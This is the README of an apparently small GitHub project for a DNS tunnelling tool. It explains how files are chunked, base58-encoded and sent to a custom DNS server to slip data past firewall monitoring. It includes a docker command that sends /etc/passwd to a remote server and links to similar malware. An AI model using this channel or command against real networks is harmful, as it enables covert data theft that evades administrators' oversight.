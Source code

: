 # Send files over DNS

Data exfiltration out of a tightly monitored and firewalled network can be *tricky*.

**UDP/53 has entered the chat**

DNS queries are often overlooked by network administrators when filtering outgoing
network traffic. Here you'll find a simple python DNS server impl to create
a DNS client/server pair to send files.

# How it works

The client will cut the file to be sent into chunks and then encode each of the
chunks (in base58 for DNS Label friendliness). Each of these chunks becomes is
sent to the custom DNS server as domain name lookups. The server just takes the
chunks and reassembles the client's file.

# How to build and execute with docker

```
docker build --tag dns_server .

# run the server:
docker run -p 53:8053 \
           -v /tmp/data:/data \
           --rm -ti dns_server

# run the client - send /etc/passwd to the server:
docker run --env TRANSFER_IO_NAMESERVER=192.168.1.101 \
           --env TRANSFER_IO_NAMESERVER_PORT=53 \
           --rm -ti dns_server python client.py /etc/passwd
```

Be sure to set the ip/ports to match your network setup.

The volume map on the server is where you'll find the decoded files sent to the server.
Their names will still be b58 encoded.

### Related work

After experiencing the momentary high of discovering this myself, I
figured that I wouldn't have been the first to discover this.
Indeed, I was not.
Apparently malware writers have been using similar techniques for years.
Here are a list of similar tools:

- [DNScat](http://tadek.pietraszek.org/projects/DNScat/)
- [DNSMessager](https://thehackernews.com/2017/03/powershell-dns-malware.html)


